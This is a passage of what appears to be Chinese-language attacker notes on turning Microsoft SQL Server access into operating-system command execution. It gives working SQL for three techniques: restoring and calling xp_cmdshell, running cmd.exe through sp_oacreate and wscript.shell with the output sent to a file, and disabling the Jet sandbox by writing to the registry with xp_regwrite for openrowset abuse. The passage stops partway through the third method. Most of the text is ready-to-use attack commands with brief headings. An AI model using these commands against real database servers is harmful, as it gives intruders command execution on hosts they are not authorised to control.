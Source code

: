 ```sql
Exec master.dbo.sp_addextendedproc 'xp_cmdshell','c:\\xplog70.dll';
```

然后执行命令

```sql
exec xp_cmdshell 'whoami';
```

### 二、SP_OACreate 

> **适用(xp\2000\2003系统)**

当xp_cmdshell 删除以后，还可以使用SP_OACreate

**首先要打开组件：**

```sql
--开启EXEC
sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 1;
RECONFIGURE;

--关闭EXEC
sp_configure 'show advanced options', 0;
RECONFIGURE;
EXEC sp_configure 'Ole Automation Procedures', 0;
RECONFIGURE;
```

**之后使用以下语句执行命令：**

```sql
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
```

**这种方式是无回显的，打开1.txt查看命令执行结果**

```bash
type c:\\1.txt
```

### 三、openrowset沙盒 

> **(2003系统可用、2012-r2实验失败)**

**首先检查cmd_shell是否开启**

```sql
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'
--结果为 1 就是开启
```

**第二步 开启默认关闭的xp_regwrite存储过程**

```sql
--开启
EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE' ,'SOFTWARE\Microsoft\Jet\4.0\Engines' ,'SandBoxMode' ,'REG_DWORD' ,0;

EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'Ad Hoc Distributed Queries', 1
GO
RECONFIGURE
GO

```
